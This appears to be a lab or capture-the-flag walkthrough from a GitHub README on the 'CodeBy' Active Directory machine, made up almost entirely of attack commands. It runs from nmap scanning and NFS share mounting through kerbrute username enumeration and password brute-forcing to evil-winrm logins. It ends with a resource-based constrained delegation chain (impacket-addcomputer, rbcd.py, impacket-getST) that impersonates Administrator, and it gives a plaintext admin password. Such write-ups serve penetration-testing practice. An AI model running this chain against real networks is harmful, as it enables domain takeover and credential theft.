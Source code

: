 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e9f885fc-46ae-4438-8147-55ddccd9d2bb)

```
nmap -p- 192.168.2.9 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3f135770-5829-4738-8ae3-21ee2b0d72cb)

```
showmount -e 192.168.2.9
sudo mkdir /mnt/it_stuff
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/87e21d95-1046-46f1-a021-7ec017b15afe)

```
sudo mount -t nfs 192.168.2.9:/it_stuff /mnt/it_stuff -o nolock
sudo ls -la /mnt/it_stuff
sudo ls -la /mnt/it_stuff/Scripts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/edd45ec3-db92-4e59-a9a2-8eb0caac3cd1)

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.9 user.txt
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c648b73b-a853-4d2b-959c-5e1d21192ea7)

```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.9 generated_passwords.txt valentin.badanov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/11faab34-a8b6-4690-8585-4c3b01ac054f)

```
evil-winrm -i 192.168.2.9 -u 'valentin.badanov' -p 'PASS'
evil-winrm -i 192.168.2.9 -u 'valentin.badanov_adm' -p 'PASS'

impacket-addcomputer -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.2.9 odeby.cdb/valentin.badanov_adm:'Ya]fBdUJl[/%2zC\GNw' -no-add
python3 rbcd.py -f EVILCOMPUTER -t HELIX -dc-ip 192.168.2.9 codeby.cdb\\valentin.badanov_adm:'Ya]fBdUJl[/%2zC\GNw' 
impacket-getST -spn cifs/HELIX.codeby.cdb -impersonate Administrator -dc-ip 192.168.2.9 codeby.cdb/EVILCOMPUTER$:ev1lP@sS
```
